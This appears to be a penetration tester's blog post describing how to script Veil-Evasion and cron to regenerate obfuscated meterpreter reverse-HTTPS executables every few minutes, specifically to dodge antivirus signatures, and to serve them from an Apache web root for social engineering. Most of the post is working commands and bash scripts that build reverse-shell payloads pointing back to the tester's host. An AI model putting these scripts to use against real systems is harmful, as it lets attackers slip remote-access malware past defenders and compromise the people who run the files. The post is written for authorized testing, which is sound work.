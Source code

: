 ```yaml
---
layout: post
title: Fresh Veil
subtitle: Automatically Generating Payloads
summary: Keep your Veil payloads fresh to avoid getting caught by 
---
```


Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.

Getting caught by AV during a test is not awesome.

Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.

The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. 

**Server Build**

This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).

For setup, make a directory called `/root/payload_temp` and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. 

The `/root/payload_temp` directory is where we’ll generate the payload before we move it to our apache root.


Let’s take a look at Veil’s command line options:
![]({{site.url}}/assets/freshveil1.png){: height="400px"}


Using these options, you can generate any payload from within Veil from the command line.


For the example code below we’ll make a `python/meterpreter/rev_https_contained` payload:

```python
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite
```

The `--overwrite` is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.

With the Veil command figured out, create a bash script called `/payload_gen.sh` to generate the payload and move it to the apache root:

```bash
#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe
```

Now we’ll add this to the cron:

`crontab -e` will bring up the cron settings. In the first two blank lines enter:

```bash
10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh
```


This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.


That’s it. Easy, right?

Good. Moving on…

**Variable IP Auto-Generation**

Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.


So `payload_gen2.sh` will pull the active eth0 IPv4 address and plug it into the same script:

```bash
#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe
```


For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using `crontab -e` and place the following code at the bottom:
`* * * * * /payload_gen2.sh`


You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.

